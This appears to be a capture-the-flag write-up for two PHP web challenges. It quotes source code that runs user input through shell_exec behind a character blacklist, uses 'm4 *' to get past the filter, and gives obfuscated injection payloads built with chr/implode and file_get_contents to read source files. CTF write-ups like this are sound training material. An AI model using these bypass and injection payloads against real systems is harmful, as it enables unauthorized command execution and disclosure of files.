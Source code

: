 
### Challenge Name : paracode 
Given Source:
```
<?php
require __DIR__ . '/flag.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$blackList = array(
  'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','ls','dd','nl','nk','df','wc', 'du'
);

$valid = true;
foreach($blackList as $blackItem)
{
    if(strpos($_GET['start'], $blackItem) !== false)
    {
         $valid = false;
         break;
    }
}

if(!$valid)
{
  show_source(__FILE__);
  exit;
}

// This will return output only for id and ps. 
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
} else {
  echo "Please enter a valid command";
}

if (False) {
  echo $flag;
}

?>
```
- As per the challenge source,the start parameter gets the user input where he value should not be in the blacklisted array or else the input will be blocked and also the value should be less than 5 characters or else it displays error.
- If we give less than 5 characters and a character that is not in the blacklisted array,our input will executed as a command.
- For example date,id,find were the commands worked
- So the solution is to use the command `m4` which process the macro in a file ==> https://www.commandlinux.com/man-page/man1/m4.1.html
- So if we input `m4 *` which will process the macro `$flag;` and print the flag in the source output.

<img src="solutionparacode.png">

### Challenge : Causal-Defence

Payload : `;show_source(implode(array(chr(105),chr(110),chr(100),chr(101),chr(120),chr(46),chr(112),chr(104),chr(112))));`

- Viewing the the source file index.php by using implode to convert array to string.

Payload : `var_dump((file_get_contents)((substr)(__FILE__,0,-20)));`

